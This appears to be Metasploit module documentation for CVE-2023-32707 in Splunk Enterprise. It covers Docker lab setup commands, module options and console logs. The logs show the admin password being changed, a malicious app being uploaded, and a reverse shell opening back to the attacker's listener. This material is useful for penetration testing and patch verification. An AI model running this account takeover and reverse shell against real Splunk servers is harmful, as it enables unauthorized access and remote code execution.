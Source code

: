 ## Vulnerable Application

### Description

An authorization issue within Splunk Enterprise allows any user with the edit_user capability to take over
the admin account (or any other chosen account) by simply changing its password.

On June 1, 2023, Splunk released a software update that addressed this vulnerability (CVE-2023-32707).

The following products are affected:

Splunk Enterprise:
 - from 8.1 before 8.1.14
 - from 8.2 before 8.2.11
 - from 9.0 before 9.0.5

Splunk Cloud Platform:
 - before 9.0.2303.100

### Exploitation

This module exploits this authorization issue to take over the admin account (or any other account with
the capability `install_apps`) to deploy an app within Splunk, aiming to achieve remote code execution.

To achieve that this module:
- Will change the password of the targeted user;
- Will deploy an app with a malicious payload;

After the execution the cleanup method will be called and:
- Should delete the deployed app;

### Setup

Create a Splunk's docker container with the following command:

```bash
    docker run --rm -p 8000:8000 -p 8089:8089 -e "SPLUNK_START_ARGS=--accept-license" -e "SPLUNK_PASSWORD=password" --name splunk-9.0.4 splunk/splunk:9.0.4
```

```bash
    # Creating non-admin user
    $ curl -k -u admin:password https://localhost:8089/services/authentication/users -d name=redway -d password=changeme -d roles=user -d createrole=1 -X POST
    # Adding capability to edit_user to the non-admin role
    $ curl -k -u admin:password https://localhost:8089/services/authorization/roles/user-redway -d capabilities=edit_user -X POST
```

**One must log in at least once on the web interface (http://localhost:8000). Otherwise, this module will fail to get the CSRF
token on the `appinstall`.**

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME (required)

The username that with the capability `edit_user` to authenticate with.

### PASSWORD (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)

### TARGET_USER (required)

The username to change the password for (default: admin)

### TARGET_PASSWORD

The new password to set for the admin user (default: random)

### APP_NAME

The name of the app to upload (default: random)

## Scenarios

### Docker container running Splunk 9.0.4


If the user you have access doen't have the capability `edit_user` the module will fail as shown below:

```
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > check

[*] Splunk version 9.0.4 detected
[*] 127.0.0.1:8000 - The target is not exploitable. User 'redway' does not have 'edit_user' capability
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >

```

If the targeted user does have the capability `install_apps` the module will fail as shown below:

```
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'user' password to yMDIOKyrHoUx
[+] Password of the user 'user' has bee changed to yMDIOKyrHoUx
[-] Exploit aborted due to failure: bad-config: The user 'user' does not have 'install_app' capability. You may consider to target other user
[*] Exploit completed, but no session was created.
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```

```
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > options

Module options (exploit/multi/http/splunk_privilege_escalation_cve_2023_32707):

   Name             Current Setting      Required  Description
   ----             ---------------      --------  -----------
   APP_NAME                              no        The name of the app to upload (default: random)
   PASSWORD         changeme             yes       The password for the specified username
   Proxies          http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            8000                 yes       The target port (TCP)
   SSL              false                no        Negotiate SSL/TLS for outgoing connections
   TARGET_PASSWORD                       no        The new password to set for the admin user (default: random)
   TARGET_USER      admin                yes       The username to change the password for (default: admin)
   USERNAME         redway               yes       The username with "edit_user" role to authenticate as
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Splunk <= 9.0.5, 8.2.11, and 8.1.14 / Linux



View the full module info with the info, or info -d command.

msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'admin' password to srviInIpi
[+] Password of the user 'admin' has bee changed to srviInIpi
[*] Uploading app stringtough
[*] Uploading file stringtough
[*] Creating an application package named: stringtough
[+] stringtough successfully uploaded
[*] Waiting for session
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:52672) at 2023-09-12 15:19:53 +0200

id
uid=41812(splunk) gid=41812(splunk) groups=41812(splunk),999(ansible)
pwd
/opt/splunk/etc/apps/stringtough/bin
exit
[*] 127.0.0.1 - Command shell session 1 closed.
```

### Docker container running Splunk 9.0.5

On a **non-vulnerable** version the module will fail as shown below:

```
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to iDKBmVsj
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > set ForceExploit true
ForceExploit => true
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to scupUXtcV
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > 
```
